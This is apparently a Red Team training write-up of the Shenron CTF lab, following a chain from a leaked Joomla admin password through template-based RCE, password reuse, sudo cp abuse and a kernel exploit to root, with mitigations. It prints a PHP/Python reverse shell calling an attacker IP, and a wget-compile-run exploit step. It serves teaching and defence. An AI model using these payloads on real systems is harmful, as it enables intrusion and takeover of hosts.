








# Shenron: Joomla Template RCE to Root via Credential Reuse

**Category:** Web (CMS) / Lateral Movement / Privilege Escalation | **Difficulty:** Medium-Hard | **Date:** March 2026

*This write-up follows a professional pentest report format as part of a Red Team training program, using a fictional lab scenario.*

## Overview

| | |
|---|---|
| **Target IP** | 10.0.2.18 (shenron) |
| **Attacker IP** | 10.0.2.9 (Kali Linux) |
| **OS** | Ubuntu Linux |
| **Services** | SSH (OpenSSH 8.2p1), HTTP (Apache 2.4.41, Joomla! 3.9.23) |

A black-box assessment against a Joomla!-based web server. The engagement progressed from an exposed test page, through admin panel compromise and a template-based PHP reverse shell, into lateral movement via credential reuse, a `sudo` misconfiguration, and finally a kernel exploit for full root compromise. No zero-days were required — the entire chain relied on basic misconfigurations and poor credential hygiene.

## Tools Used

`arp-scan` • `nmap` • `gobuster` • Browser DevTools (view-source) • Joomla Template Editor • `netcat` • `su` / `sudo` • `ssh-keygen` • local kernel exploit (compiled with `gcc`)

## Methodology

### 1. Network Reconnaissance

An ARP scan identified four live hosts on the subnet; `10.0.2.18` was selected as the target by its VirtualBox NIC. A full-port `nmap` scan found only two open services: **SSH (22)** and **HTTP (80)**.


*arp-scan host discovery and nmap full-port service scan — ports 22 and 80 open*

### 2. Web Directory Enumeration

`gobuster` with the `common.txt` wordlist revealed three relevant paths: `/joomla/` (the CMS itself), `/test/` (no authentication required), and `/server-status` (403, Apache status page). The unauthenticated `/test/` directory was investigated first.


*gobuster results — /joomla/ and /test/ discovered on 10.0.2.18*

### 3. Credential Discovery — `/test/password` Endpoint

The page at `http://10.0.2.18/test/password` displayed only a cryptic hint in the browser.


*/test/password — rendered page gives only a vague hint*

Viewing the page source, however, revealed Joomla admin credentials embedded directly in an HTML comment:

```html
<!--
    "All The Best"
    Credentials:- "admin:3iqtzi4RhkWANcu@$pa$$"
-->
```


*view-source — admin credentials exposed in an HTML comment on line 14*

HTML comments are invisible in normal browsing but trivially readable via "View Page Source" — a reminder that anything shipped to the client, commented or not, must be treated as public.

### 4. Joomla Admin Access and Template-Based RCE

The leaked credentials (`admin` / `3iqtzi4RhkWANcu@$pa$$`) granted full access to the Joomla 3.9.23 admin dashboard at `/joomla/administrator`, with no 2FA configured. Using the built-in **Template Editor** (Extensions → Templates), a PHP reverse shell was injected directly into the active theme's `index.php`:

```php
$ip = "10.0.2.9";
$port = "9991";
$cmd = "python3 -c 'import socket,os,pty;
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
  s.connect((\"$ip\",$port));
  os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
  pty.spawn(\"/bin/bash\")'";
exec($cmd);
```


*Joomla Template Editor — PHP reverse shell payload written into Protostar's index.php*


*"File saved" confirmation after writing the malicious payload*

A listener was started on the attacker machine (`nc -lnvp 9991`), and visiting the Joomla front page triggered the payload.

### 5. Initial Shell and Credential Extraction

The reverse shell connected back as `www-data`. After stabilizing the TTY, `/etc/passwd` revealed two non-system accounts: `jenny` (uid 1001) and `shenron` (uid 1002). Reading the Joomla configuration file exposed the database password in plaintext:

```bash
cat /var/www/html/joomla/configuration.php | grep password
# public $password = 'Mypa$$wordi$notharD@123';
```

This same password turned out to be reused for the `jenny` OS account — a textbook **credential reuse** vulnerability that enabled the next stage.

### 6. Lateral Movement: www-data → jenny → shenron

Direct SSH attempts as `root` and `shenron` both failed (public-key authentication only). The database password was then tried against `jenny` via `su`, and succeeded immediately:

```bash
su jenny
Password: Mypa$$wordi$notharD@123   →   Successful
```


*SSH as root/shenron rejected (publickey only); su jenny succeeds using the reused DB password*

From `jenny`, `sudo -l` revealed a critical misconfiguration:

```
User jenny may run the following commands on shenron:
    (shenron) NOPASSWD: /usr/bin/cp
```

Combined with `shenron`'s world-writable `.ssh` directory, this unrestricted `cp` was enough to plant an SSH key:

```bash
ssh-keygen -t rsa -f /tmp/hacker_key -N ""
sudo -u shenron /usr/bin/cp /tmp/hacker_key.pub /home/shenron/.ssh/authorized_keys
chmod 600 /tmp/hacker_key
ssh -i /tmp/hacker_key shenron@127.0.0.1
```

This granted an SSH shell as `shenron` and the local flag was retrieved from `/home/shenron/local.txt`.

### 7. Privilege Escalation — Local Kernel Exploit

No further sudo rights or exploitable SUID binaries were found as `shenron`. The running kernel (`5.4.0-58`) was identified as vulnerable to a known local privilege-escalation exploit. The exploit source was hosted on the attacker's machine and pulled onto the target:

```bash
wget http://10.0.2.9/exploit.c
gcc exploit.c -o exploit
./exploit shell
```

```
bash-5.0# id
uid=0(root) gid=0(root) groups=0(root)
```


*Downloading, compiling and running the kernel exploit — root shell obtained (uid=0)*

This completed full root compromise of the target.

## Key Takeaways

- A single forgotten test page with credentials in an HTML comment was the root cause of the entire chain — "hidden" client-side content is not a security control.
- CMS admin panels without MFA turn any leaked password into full remote code execution the moment a template or plugin editor exposes raw file writes.
- Reusing a database password as an OS account password converts an application-layer leak directly into host-level lateral movement.
- Unrestricted `NOPASSWD` entries for file manipulation tools (`cp`, `mv`, `tee`, etc.) are effectively unrestricted code execution as the target user.
- Patch cadence matters: an outdated kernel turned an already-compromised low-privilege shell into full root with a publicly available exploit.

## Mitigation and Prevention

**Credential & secret management**
- Delete or restrict the `/test/` and `/test/password` pages immediately; audit the webroot for other files containing the word "password".
- Rotate every credential exposed in this engagement (Joomla admin, MySQL, `jenny`, `shenron`) — do not reuse any part of the old passwords.
- Ensure configuration files (`configuration.php`, `.env`) are not world-readable: `chmod 640 configuration.php`.
- Use a secrets manager and inject credentials via environment variables rather than hardcoding them.

**CMS & web application security**
- Enable Two-Factor Authentication on the Joomla admin account immediately — without it, a stolen password equals full CMS control.
- Restrict `/administrator/` by IP via `.htaccess` so only management workstations can reach it.
- Disable the Template Editor or make template files read-only for the web server user (`chmod 444`).
- Upgrade Joomla 3.9.23 (end-of-life) to a supported 4.x/5.x release, and deploy a WAF (e.g., ModSecurity with the OWASP Core Rule Set).

**sudo & file permission hardening**
- Remove the dangerous `jenny ALL=(shenron) NOPASSWD: /usr/bin/cp` rule via `visudo`, and audit `/etc/sudoers.d/` for similar entries.
- Fix SSH directory/key permissions for every user: `chmod 700 ~/.ssh && chmod 600 ~/.ssh/authorized_keys`.
- Periodically audit home directories for world-writable files: `find /home -perm -o+w -ls`.
- Never grant `NOPASSWD` to general-purpose tools (`cp`, `mv`, `python`, `curl`, `wget`, etc.).

**System patching & network controls**
- Patch the kernel and all packages immediately; remove build tools (`gcc`, `make`) from production web servers so downloaded exploit source can't be compiled in place.
- Block outbound connections from the `www-data` user to prevent exploit/tool downloads.
- Deploy a host-based IDS (e.g., Wazuh/OSSEC) alerting on PHP file changes and `/etc/passwd`/`/etc/sudoers` modifications.
- Schedule regular vulnerability scans and an annual penetration test, with a retest within 30 days of major findings.

## Conclusion

This engagement reached full root compromise without any advanced exploit development — the chain was built entirely from basic misconfigurations. A single credential exposed in an HTML comment on an unauthenticated test page cascaded into CMS admin access, remote code execution via the template editor, lateral movement through password reuse, privilege escalation via an unrestricted `sudo` rule, and finally root via an unpatched kernel. Fixing credential hygiene, enabling CMS MFA, tightening `sudo` rules, or simply patching the kernel would each independently have stopped this chain well short of root.
